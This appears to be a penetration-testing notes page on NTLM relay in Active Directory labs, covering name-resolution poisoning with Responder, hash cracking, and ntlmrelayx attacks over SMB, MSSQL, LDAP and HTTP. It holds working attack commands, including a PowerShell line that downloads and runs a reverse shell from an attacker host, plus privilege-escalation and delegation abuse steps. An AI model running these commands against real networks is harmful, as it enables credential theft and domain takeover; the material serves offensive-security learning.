




---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
  tags:
    visible: true
tags:
  - cape
  - active-directory
  - responder
  - inveigh
  - ntlm-relay
  - llmnr
  - ntb-ns
  - mdns
  - ntlmrelayx
---

# NTLM Relay


* [NTML Relay (hackndo)](https://en.hackndo.com/ntlm-relay/)
* [NTLM relay (The Hacker Recipes)](https://www.thehacker.recipes/ad/movement/ntlm/relay)
* [Finding a Needle in an Encrypted Haystack](https://www.youtube.com/watch?v=2L7JpcLZ05Q)


## Overview


If name resolution protocol poisoning is not an option, see NTML via [SMB](../../../services/shares/smb-139-445.md#hashes) or WebDAV.


NTLM authentication does not support **mutual authentication**. This means the client cannot verify that it is communicating with the legitimate server, and the server cannot verify that the client is connecting directly rather than through an intermediary. Because of this limitation, NTLM authentication can be abused in **relay attacks**, where an attacker forwards authentication attempts between two parties.

In an NTLM relay attack, the attacker positions themselves between a client and a target server. The attacker impersonates a legitimate service to the client while simultaneously acting as a client to the target server. When the victim authenticates, the attacker relays the authentication exchange to the target system and performs actions using the victim’s privileges.

<figure><figcaption><p>NTLM relay basic flow (<a href="https://www.crowdstrike.com/en-us/blog/ntlm-remote-code-execution-security-advisory/">source</a>).</p></figcaption></figure>

The attack typically occurs in three phases: **pre-relay**, **relay**, and **post-relay**.

## Pre-Relay Phase

The goal of the pre-relay phase is to **coerce a victim system into initiating NTLM authentication** to a host controlled by the attacker. One of the most common techniques used to achieve this is **name resolution poisoning**.

### Name Resolution Poisoning

When a Windows host attempts to resolve a hostname, it follows (by default) a sequence of resolution mechanisms. The exact order may vary depending on configuration, but the process generally follows this pattern:

1. The **hosts file** (`C:\Windows\System32\Drivers\etc\hosts`)
2. The **local DNS cache**
3. The configured **DNS server**
4. **Multicast name resolution protocols**

If the hostname cannot be resolved through the hosts file, cache, or DNS, Windows may fall back to multicast-based name resolution protocols, including:

* **LLMNR (Link-Local Multicast Name Resolution)**
* **NBT-NS (NetBIOS Name Service)**
* **mDNS (Multicast DNS)**

These protocols operate on the local network segment and broadcast a request asking if any system knows the requested hostname. The problem is that these protocols **do not verify the authenticity of responses**. Any host on the same network segment can reply to the request, and the client will typically trust the **first response it receives**. This behavior allows an attacker to impersonate the requested host and capture authentication attempts.

For example, if a user mistypes a network path such as:

```
\\pintserver\
```

instead of:

```
\\printserver\
```

the system may send an LLMNR or NBT-NS broadcast asking which host owns the name `pintserver`. An attacker on the same network can respond to this request and claim ownership of the name, causing the victim system to attempt authentication to the attacker-controlled host.

<figure><figcaption><p>LLMNR/NBT-NS poisoning (<a href="https://www.sternsecurity.com/blog/local-network-attacks-llmnr-and-nbt-ns-poisoning/">source</a>).</p></figcaption></figure>

Name resolution poisoning is only one way to obtain a MitM position for NTLM relay attacks. Other techniques can also be used to redirect authentication traffic, including:

* [ARP Poisoning](https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/arp-poisoning)
* [DNS Poisoning](https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/dns-spoofing)
* [DHCP Spoofing](https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/dhcp-poisoning)
* [DHCPv6 Spoofing](https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/dhcpv6-spoofing)
* [ADIDNS Poisoning](https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/adidns-spoofing)
* [WPAD Spoofing](https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/wpad-spoofing)
* [WSUS Spoofing](https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/wsus-spoofing)

### Poisoning Tools

Several tools can exploit multicast name resolution behavior by responding to broadcast queries and impersonating legitimate services. Two commonly used tools are [**Responder**](https://github.com/lgandx/Responder) (Linux) and [**Inveigh**](https://github.com/Kevin-Robertson/Inveigh) (Windows). Metasploit's also has the [`smb_relay`](https://www.rapid7.com/db/modules/exploit/windows/smb/smb_relay/) module for relaying NTLM.

Responder acts as a **multicast poisoning tool and rogue authentication server**, capable of responding to LLMNR, NBT-NS, and mDNS requests and capturing authentication attempts over multiple protocols. It supports authentication capture over services, such as SMB, HTTP, LDAP, MSSQL, and FTP. Captured authentication material typically includes **NetNTLMv1 or NetNTLMv2 challenge–response data**.

Responder also supports an **analysis mode**, which allows attackers to observe name resolution traffic without actively poisoning responses. This mode is useful for reconnaissance because it reveals which systems are attempting to resolve non-existent or mistyped hostnames.

```bash
sudo responder -I ens33 -A
```

When poisoning is enabled, Responder will respond to broadcast queries and impersonate the requested service. This causes the victim system to attempt NTLM authentication to the attacker's host. A successful capture might appear as:

```bash
[SMB] NTLMv2-SSP Client   : 10.10.110.17
[SMB] NTLMv2-SSP Username : WIN7BOX\demouser
[SMB] NTLMv2-SSP Hash     : demouser::WIN7BOX:997...<SNIP>...000
```

Captured hashes are stored in Responder’s logs directory, typically:

```bash
/usr/share/responder/logs/
```

It is common to observe **multiple hashes for the same user account**. This occurs because NTLMv2 authentication uses both a **server challenge and a client challenge**, each of which is randomly generated for every authentication attempt. As a result, the resulting challenge–response values differ even when the underlying password remains the same.

In addition to Responder and Inveigh, another tool used for name resolution poisoning and authentication capture is [Pretender](https://github.com/RedTeamPentesting/pretender). Pretender is a cross-platform tool written in Go and developed by [RedTeam Pentesting](https://blog.redteam-pentesting.de/2022/introducing-pretender/). Its primary purpose is to obtain a **Machine-in-the-Middle (MitM) position** by spoofing name resolution protocols and abusing **DHCPv6-based DNS takeover techniques**.

Like Responder, Pretender can impersonate network services and respond to name resolution requests in order to trigger authentication attempts from victim systems. However, it also includes functionality for **DHCPv6 spoofing**, which allows an attacker to influence how clients discover DNS servers on the network. By redirecting DNS resolution to an attacker-controlled system, Pretender can intercept or manipulate authentication traffic.

Pretender includes a **dry-run mode** (`--dry`), which allows the tool to observe broadcast traffic without responding to requests. This is useful during reconnaissance because it reveals which name resolution queries are occurring in the environment without actively interfering with network communication.

It is important to **use Pretender cautiously in production environments**. By default, the tool attempts to poison **DHCP requests**, which can significantly disrupt network operations. DHCP-based configuration changes may persist on affected machines until the DHCP lease expires, the system is rebooted, or a new DHCP request is forced. During this time, DNS queries from the affected system may be redirected incorrectly, potentially causing connectivity issues or preventing access to legitimate services.

### Post-Capture Options

Once NetNTLM authentication material has been captured, two primary attack paths are possible:

* Offline Password Cracking

```bash
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```

* Relay

## Relay Phase


Other relay tools: [MultiRelay.py](https://github.com/lgandx/Responder/blob/master/tools/MultiRelay.py), [Inveigh](https://github.com/Kevin-Robertson/Inveigh/tree/master).


Instead of cracking the hash, an attacker can **relay the captured authentication attempt to another system that accepts NTLM authentication**. Tools such as [impacket-ntlmrelayx](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py) automate this process. The attacker intercepts the authentication attempt and forwards it to a target host, attempting to authenticate as the victim user.

For SMB relay attacks to succeed, **SMB signing must not be required** on the target system. If SMB signing is enforced, the relay attack will fail because the attacker cannot generate the required message signatures.


```bash
# Enumerate the DCs
nslookup marvel.local | awk 'NR > 2 && /^Address:/ {print $2}' > dc-ips.txt

# Check SMB signing on DCs
nxc smb dc-ips.txt --gen-relay-list dc-relay-list.txt

# Check SMB signing on the subnet
nxc smb subnet-ips.txt --gen-relay-list subnet-relay-list.txt
```


When using Responder together with `ntlmrelayx`, Responder’s SMB server must be disabled so that the relay tool can handle incoming connections.

```bash
# Disable Responder's SMB listener
$ sudo cat /etc/responder/Responder.conf | grep 'SMB ='

SMB = Off
```

Once running, `ntlmrelayx` waits for incoming authentication attempts and relays them to a single (`-t`) or multiple hosts (`-tf`). The `-smb2support` flag provides SMBv2 support for hosts the need it.

```bash
sudo impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146
```

If the victim is a privileged account, `ntmlrelayx` will dump the SAM by default. However, remote code execution (RCE) can be also achieved using the `-c` flag. For example, a reverse shell can be used as a payload (e.g. [revshells](https://www.revshells.com/)' Powershell #3 (Base64) or [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)).


To successfully gain **remote code execution (RCE)** on the target host via NTLM relaying:

1. The relayed user account must have **administrative privileges on the target**.
2. The target host must have **UAC remote restrictions disabled**; otherwise, command execution will fail unless relaying to the built-in **local Administrator** account.

If options like `-c` or `-i` in `ntlmrelayx` silently fail but actions like dumping the SAM still succeed, it's likely due to antivirus interference blocking payload execution.



```shell
# Revshells' payload
sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e JAB...<SNIP>...CkA'

# Nishang's payload (download and the run)
sudo ntlmrelayx.py -tf relayTargets.txt -smb2support -c "powershell -c IEX(New-Object NET.WebClient).DownloadString('http://172.16.117.30:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 172.16.117.30 -Port 7331"
```


Once the victim authenticates to our server, we poison the response and make it execute our command.

### Multi-Relay

> [We Love Relaying Credentials: A Technical Guide to Relaying Credentials Everywhere](https://www.secureauth.com/resources/we-love-relaying-credentials-a-technical-guide-to-relaying-credentials-everywhere/)

`ntlmrelayx` supports **multi-relay**, a feature that allows a single captured NTLM authentication attempt to be reused across multiple relay targets. This provides two main advantages:

* It enables the attacker to **identify the user associated with the captured NTLM authentication** before deciding how to relay it.
* It allows **a single authentication attempt to be relayed to multiple targets**, increasing the chances of successful exploitation.

When multi-relay is enabled, the attacking machine first accepts the authentication locally. The identity of the authenticating user is extracted and the client is then **forced to reauthenticate**, allowing the credentials to be relayed to one or more defined targets.

This behavior is **enabled by default for HTTP and SMB relay servers**, except when attacking a single general target. In such cases, multi-relay is disabled unless explicitly enabled. The feature can also be manually disabled using the `--no-multirelay` option.

#### Target Definition

Relay targets can be defined either as **named targets** or **general targets**:

* A named target specifies the identity of the account expected to authenticate.
* A general target does not specify any identity and accepts authentication attempts from any user.

Targets follow the general format: `scheme://authority/path`, where:

* **Scheme** defines the protocol used for the relay. If not specified, SMB is used by default. The keyword `all` can be used to attempt relaying across all supported protocols.
* **Authority** specifies the identity and target host in the format `domain-name\username@host:port` for named targets.
* **Path** is optional and is mainly used in specific attack scenarios such as accessing restricted HTTP endpoints after relaying authentication.

The multi‑Relay behavior is influenced by the target type.

<table><thead><tr><th width="193.800048828125">Target Type</th><th width="380.4000244140625">Example</th><th>Multi‑Relay Default</th></tr></thead><tbody><tr><td>Single General Target</td><td><code>-t 172.1.117.5</code> or <code>smb://172.1.117.5</code></td><td>Disabled</td></tr><tr><td>Single Named Target</td><td><code>-t smb://MARVEL\\PETER@172.1.117.5</code></td><td>Enabled</td></tr><tr><td>Multiple Targets</td><td><code>-tf relayTargets.txt</code></td><td>Enabled</td></tr></tbody></table>

For example:

* `smb://172.1.117.5` defines a **general target**. In this configuration multi-relay is disabled and only the **first captured NTLM authentication** will be relayed. This results in a **1:1 relationship** between the authentication attempt and the relay attack.
* `smb://INLANEFREIGHT\\PETER@172.1.117.5` defines a **named target**. Multi-relay is enabled and any authentication attempt belonging to the specified user can be relayed to the target host. This allows **multiple authentication attempts to trigger multiple relay attacks**.
* If general targets are placed inside a file and passed with the `-tf` option, **multi-relay becomes enabled automatically**.
* If a named target is defined but the attacker wishes to relay **only the first captured authentication**, the `--no-multirelay` option can be used to disable the feature.

#### SOCKS Support

The `-socks` option allows `ntlmrelayx` to **retain successfully relayed authenticated sessions** and expose them through a local SOCKS proxy. This enables attackers to interact with compromised services using external tools while reusing the authenticated session.

```bash
sudo ntlmrelayx.py -tf relayTargets.txt -smb2support -socks
sudo python3 Responder.py -I eth0
```

Once authentication attempts are successfully relayed, `ntlmrelayx` stores the active sessions and exposes them through its internal SOCKS proxy.


```bash
[*] SMBD-Thread-9: Connection from MARVEL/BOB@172.1.117.5 controlled, attacking target smb://172.1.117.5
[*] Authenticating against smb://172.1.117.5 as MARVEL/BOB SUCCEED
[*] SOCKS: Adding MARVEL/BOB@172.1.117.5(445) to active SOCKS connection. Enjoy
```


Multiple authenticated sessions may be stored simultaneously. When the SOCKS functionality is enabled, `ntlmrelayx` provides a small CLI interface that can be used to manage and inspect active sessions. The **AdminStatus** column indicates whether the authenticated user has administrative privileges on the target system.

```bash
ntlmrelayx> help

# List active sessions
ntlmrelayx> socks

Protocol  Target         Username    AdminStatus  Port
SMB       172.1.117.5  MARVEL/BOB    FALSE        445
SMB       172.1.117.5  MARVEL/MARIA  TRUE         445
SMB       172.1.117.5  MARVEL/JAKE   FALSE        445
```

#### SOCKS with Proxychains

The SOCKS proxy created by `ntlmrelayx` allows authenticated sessions to be reused with external tools by routing traffic through `proxychains`. The default SOCKS port used by `ntlmrelayx` is **1080**, which must be configured in `/etc/proxychains4.conf`.

```bash
socks4 127.0.0.1 1080
```

Once configured, Impacket tools can be executed through the SOCKS proxy to interact with the relayed sessions. For example, if the account `MARVEL/BOB` has administrative privileges on the relay target, remote command execution can be achieved. The `-no-pass` option prevents the tool from prompting for credentials because authentication is performed through the active SOCKS session maintained by `ntlmrelayx`.

```bash
proxychains4 -q smbexec.py MARVEL/BOB@172.1.117.5 -no-pass
```

Even if the relayed account does not have administrative privileges, the session can still be used for **limited access operations**, such as browsing file shares or reading accessible data. For example, `MARIA` can connect to the target system and enumerate shared folders.

```bash
proxychains4 -q smbclient.py MARVEL/MARIA@172.1.117.5 -no-pass
```

Although these actions do not provide full system compromise, they can still lead to **valuable information disclosure**.

#### Interactive SMB Client Shells

`ntlmrelayx` also supports launching interactive SMB client shells for each authenticated session using the `-i` or `--interactive` option. In this mode, each successful relay spawns a **local TCP listener** that provides an SMB shell connected to the compromised target.

```bash
ntlmrelayx.py -tf relayTargets.txt -smb2support -i
[*] Started interactive SMB client shell via TCP on 127.0.0.1:11000
```

The shell can then be accessed locally using a tool such as `netcat`. This provides direct access to the SMB session established during the relay attack without requiring additional tooling.

```bash
nc -nv 127.0.0.1 11000
```

## Post Relay

Once the NTLM authentication exchange has been successfully relayed to a target system, the attacker can leverage the **authenticated session established with the target server**. At this stage, the attacker is effectively operating with the privileges of the victim account whose authentication was relayed. What actions are possible depends primarily on two factors: the **privileges of the relayed user account** and the **protocol being targeted**.

### Cross-Protocol Attacks

NTLM relay attacks exploit the fact that NTLM authentication can be **captured from one protocol and forwarded to another service**. Since the NTLM authentication messages are embedded within multiple application protocols, an attacker can extract them from one protocol and reuse them in another. For example, a victim may authenticate to the attacker over **HTTP**, and the attacker can relay that authentication to **SMB on a DC**.


Relay attacks fail if the **client requires session signing on the protocol used to authenticate to the attacker**. Signing cryptographically binds the authentication to the original session, preventing it from being reused elsewhere.


<figure><figcaption><p>Cross-protocol NTLM relay (<a href="https://en.hackndo.com/ntlm-relay/#integration-with-smb">source</a>).</p></figcaption></figure>

`ntlmrelayx` supports multiple protocols both as a **relay client** and as a **capture server**.

<table><thead><tr><th width="146">Captured From</th><th width="451">Relayed To</th><th>Cross-Protocol</th></tr></thead><tbody><tr><td>HTTP(S)</td><td>HTTP(S)</td><td>No</td></tr><tr><td>HTTP(S)</td><td>IMAP / LDAP(S) / MSSQL / RPC / SMB / SMTP</td><td>Yes</td></tr><tr><td>SMB</td><td>SMB</td><td>No</td></tr><tr><td>SMB</td><td>HTTP(S) / IMAP / LDAP(S) / MSSQL / RPC / SMTP</td><td>Yes</td></tr><tr><td>WCF</td><td>HTTP(S) / IMAP / LDAP(S) / MSSQL / RPC / SMB / SMTP</td><td>Yes</td></tr></tbody></table>

### Over MSSQL

In this scenario, the goal is to **relay NTLM authentication to a Microsoft SQL Server (MSSQL) instance** and interact with it through the relayed session.


* For post-relay attacks against MSSQL, `ntlmrelayx` must be run as **`root`**.
* Modern Windows systems prevent **NTLM self-relay attacks**. This means authentication originating from a host **cannot be relayed back to the same host**.


Typical setup:

* A target host running **MSSQL**
* An attacker capturing NTLM authentication
* The authentication is relayed to MSSQL
* The attacker interacts with the service through a **SOCKS proxy**


```bash
# Swith to root
$ sudo su -

# Configure the relay server
$ sudo ntlmrelayx.py -t mssql://172.16.117.60 -smb2support -socks

# Lanch responder (SMB: OFF)
$ python3 Responder.py -I ens192

# Catch and relay NTLM
$ sudo ntlmrelayx.py -t mssql://172.16.117.60 -smb2support -socks -no-http-server
...
ntlmrelayx>
[*] SMBD-Thread-10: Received connection from 172.16.117.3, attacking target mssql://172.16.117.60
[*] Authenticating against mssql://172.16.117.60 as MARVEL/BOB SUCCEED
[*] SOCKS: Adding MARVEL/BOB@172.16.117.60(1433) to active SOCKS connection. Enjoy

# List sessions
ntlmrelayx> socks

Protocol  Target         Username    AdminStatus  Port 
--------  -------------  ----------  -----------  ----
MSSQL     172.16.117.60  MARVEL/BOB  N/A          1433

# Connect to MSSQL server
$ proxychains -q mssqlclient.py MARVEL/bob@172.16.117.60 -windows-auth -no-pass
SQL (MARVEL\bob  dbo@master)> enum_db

# Execute queries directly
$ sudo ntlmrelayx.py -t mssql://MARVEL\\BOB@172.16.117.60 -smb2support -q "SELECT name FROM sys.databases;"
```


### Over LDAP

Relaying NTLM authentication to **LDAP on a DC** via `ntlmrelax` automatically enable several high-impact attacks, including dumping domain info, adding a new DA, and escalating privilege via misconfigured ACLs/DACLs attacks. These can be explicitly disabled with the `--no-da` and `--no-acl` flags. The directory for the dump can be specified with the `--lootdir` option.

#### Domain Enumeration


```bash
# Start responder (SMB and HTTP to OFF)
$ sudo python3 Responder/Responder.py -I ens192

# Configure relay for domain dump
$ sudo ntlmrelayx.py -t ldap://172.16.117.3 -smb2support --no-da --no-acl --lootdir ldap_dump
```


The below error:

```
The client requested signing. Relaying to LDAP will not work!
(This usually happens when relaying from SMB to LDAP)
```

occurs when attempting to relay **SMB NTLM authentication to LDAP** on a DC.

* SMB signing cryptographically binds authentication to the SMB session
* Because of this binding, the authentication cannot be reused in another protocol such as LDAP

As a result, the relay fails. However, several vulnerabilities allow bypassing these protections by modifying NTLM messages:

* **Drop the MIC** – CVE-2019-1040 (`--remove-mic`)
* **Drop the MIC 2** – CVE-2019-1166
* **Your Session Key is my Session Key** – CVE-2019-1019 (`--remove-target`)

These vulnerabilities allow attackers to remove integrity checks that prevent relaying. A [scanner](https://github.com/fox-it/cve-2019-1040-scanner/tree/master) is available to test for CVE-2019-1040:

```bash
$ python3 scan.py marvel/bob$:'Passw0wrd123!'@172.16.117.3
[*] CVE-2019-1040 scanner by @_dirkjan / Fox-IT - Based on impacket by SecureAuth
[*] Target 172.16.117.3 is not vulnerable to CVE-2019-1040 (authentication was rejected)
```

Unlike SMB, **HTTP does not support session signing**. Because of this, **HTTP NTLM authentication can be relayed to LDAP**, even when SMB-to-LDAP relay fails.


```bash
$ sudo ntlmrelayx.py -t ldap://172.16.117.3 -smb2support --no-da --no-acl --lootdir ldap_dump
...
[*] HTTPD(80): Connection from 172.16.117.60 controlled, attacking target ldap://172.16.117.3
[*] HTTPD(80): Authenticating against ldap://172.16.117.3 as MARVEL/BOB SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] Dumping domain info for first time
[*] Domain info dumped into lootdir!
```


#### Computer Account Creation


[Bypassing LDAP Channel Binding with StartTLS](https://offsec.almond.consulting/bypassing-ldap-channel-binding-with-starttls.html)


`ntlmrelayx` can attempt to create a new **machine account in AD**. The `NAME` and `PASSWORD` values are optional, if they are not provided, they will be generated automatically.


```bash
$ sudo ntlmrelayx.py -t ldap://172.16.117.3 -smb2support --no-da --no-acl --add-computer 'newMachine$' 'Passw0rd123!'
...
[*] Servers started, waiting for connections
[*] HTTPD(80): Connection from 172.16.117.60 controlled, attacking target ldap://172.16.117.3
[*] HTTPD(80): Authenticating against ldap://172.16.117.3 as MARVEL/BOB SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] Adding a machine account to the domain requires TLS, but ldap:// scheme provided. Switching target to LDAPS via StartTLS
[*] Attempting to create computer in: CN=Computers,DC=MARVEL,DC=LOCAL
[*] Adding new computer with username: newMachine$ and password: Passw0rd123! result: OK
```


#### Privilege Escalation via ACL Abuse

If the relayed account has sufficient privileges, `ntlmrelayx` may detect **misconfigured ACLs/DACLs** and automatically escalate privileges.


```bash
$ sudo ntlmrelayx.py -t ldap://172.16.117.3 -smb2support --escalate-user 'newMachine$' --no-dump -debug
...
[*] Servers started, waiting for connections
[*] HTTPD(80): Connection from 172.16.117.60 controlled, attacking target ldap://172.16.117.3
[*] HTTPD(80): Authenticating against ldap://172.16.117.3 as MARVEL/BOB SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[+] User is a member of: [DN: CN=SQL Admins,CN=Users,DC=MARVEL,DC=LOCAL - STATUS: Read - READ TIME: 2023-07-24T20:23:28.703082
    name: SQL Admins
    objectSid: S-1-5-21-1207890233-375443991-2397730614-1153
]
[+] User is a member of: [DN: CN=Domain Users,CN=Users,DC=MARVEL,DC=LOCAL - STATUS: Read - READ TIME: 2023-07-24T20:23:28.706705
    distinguishedName: CN=Domain Users,CN=Users,DC=MARVEL,DC=LOCAL
    name: Domain Users
    objectSid: S-1-5-21-1207890233-375443991-2397730614-513
]
[+] Permission found: Full Control on CN=Enterprise Admins,CN=Users,DC=MARVEL,DC=LOCAL; Reason: GENERIC_ALL via CN=SQL Admins,CN=Users,DC=MARVEL,DC=LOCAL
[*] User privileges found: Adding user to a privileged group (Enterprise Admins)
[+] Performing Group attack
[*] Adding user: newMachine to group Enterprise Admins result: OK
[*] Privilege escalation successful, shutting down...
```


#### RBCD

> [https://github.com/Dec0ne/DavRelayUp](https://github.com/Dec0ne/DavRelayUp)

The following attack chain abuses **WebDAV + NTLM relay + Resource-Based Constrained Delegation (RBCD)** to obtain **administrator access on a target machine using Kerberos delegation**.

The process works as follows:

1. Enable **WebDAV** on a target so it will authenticate over HTTP.
2. **Poison and relay NTLM authentication** to LDAP on the Domain Controller (DC).
3. Modify **delegation attributes** on the target machine account.
4. Use **Kerberos S4U2Proxy** to impersonate a privileged user.
5. Request a **service ticket (TGS) as Administrator** and execute commands on the target.

A `.searchConnector-ms` file is dropped on a writable share. When accessed, this forces the host to interact with a [**WebDAV server**](ntlm-relay.md#webdav), which enables the **WebClient service** and allows authentication over HTTP.


```bash
# Enable WebDAV on the targets hosts
nxc smb 172.16.117.3 -u anonymous -p '' -M drop-sc -o URL=https://172.16.117.30/testing FILENAME=@secret

# Verify which hosts have the WebClient service enabled
$ nxc smb 172.16.117.0/24 -u x7331$ -p Pass123! -M webdav
...
WEBDAV      172.16.117.60   445    SQL01        WebClient Service enabled on: 172.16.117.60

# Start a Poisoning Listener
$ sudo python3 Responder.py -I ens192
...
HTTP server                [OFF]
SMB server                 [OFF]
```


`ntlmrelayx` is configured to relay captured authentication to **LDAP over LDAPS** on the DC.

* `--delegate-access` → configures **RBCD**
* `--escalate-user` → allows the specified account to modify delegation attributes

This grants the attacker-controlled machine account **delegation rights on `SQL01$`**.


```bash
# Relay NTLM
$ sudo ntlmrelayx.py -t ldaps://MARVEL\\'SQL01$'@172.16.117.3 --delegate-access --escalate-user 'x7331$' --no-smb-server --no-dump
```


The **PrinterBug attack** forces the `SQL01$` machine account to authenticate to the attacker over HTTP, the authentication is captured and relayed to LDAP.


```bash
# Coerce HTTP NTLM authentication from SQL01$
$ python3 printerbug.py marvel/x7331$:'Pass123!'@172.16.117.60 LINUX01@80/print

# Confirm delegation settings
$ sudo ntlmrelayx.py -t ldaps://MARVEL\\'SQL01$'@172.16.117.3 --delegate-access --escalate-user 'x7331$' --no-smb-server --no-dump
...
[*] HTTPD(80): Connection from MARVEL/SQL01$@172.16.117.60 controlled, attacking target ldaps://MARVEL\SQL01$@172.16.117.3
[*] HTTPD(80): Authenticating against ldaps://MARVEL\SQL01$@172.16.117.3 as MARVEL/SQL01$ SUCCEED
[*] Enumerating relayed user\'s privileges. This may take a while on large domains
[*] Delegation rights modified succesfully!
[*] x7331$ can now impersonate users on SQL01$ via S4U2Proxy
[*] All targets processed!

# Request a TGS as Administrator
$ getST.py -spn cifs/sql01.marvel.local -impersonate Administrator -dc-ip 172.16.117.3 "MARVEL"/"x7331$":"Pass123!"
...
[*] Saving ticket in Administrator.ccache

# Access the target using Kerberos authentication
$ KRB5CCNAME=Administrator.ccache psexec.py -k -no-pass sql01.marvel.local
```


### Over HTTP

NTLM relay attacks against **HTTP services** can grant access to restricted web endpoints and allow attackers to perform actions as the authenticated user. Common attack targets include:

* **Active Directory Certificate Services (AD CS)** web enrollment endpoints
* **Active Directory Federation Services (ADFS)** login portals
* Other **NTLM-enabled web applications**

After a successful relay, the attacker can access protected web resources or abuse the authenticated session to perform actions on behalf of the victim. Tools such as [NTLMRecon](https://github.com/praetorian-inc/NTLMRecon) can automate the discovery of **NTLM-enabled HTTP endpoints** that may be suitable relay targets.

#### NTLM over HTTP Protocol

The [**NTLM over HTTP protocol (MS-NTHT)**](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-ntht/f09cf6e1-529e-403b-a8a5-7368ee096a6a) defines how NTLM authentication occurs between a web client and a web server. The process follows a **challenge-response exchange**.

1. **Initial Request**: A client attempts to access a protected resource. At this stage, no authentication information ([`Authorization`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Authorization) header) is included.

```
GET /protected/resource.php
```

2. **Authentication Challenge**: The server responds with an **HTTP 401 Unauthorized** status and indicates that NTLM authentication is required via the [`WWW-Authenticate`](https://www.rfc-editor.org/rfc/rfc9110#section-11.6.1) header. This tells the client to begin the NTLM authentication process.

```
HTTP/1.1 401 Unauthorized
WWW-Authenticate: NTLM
```

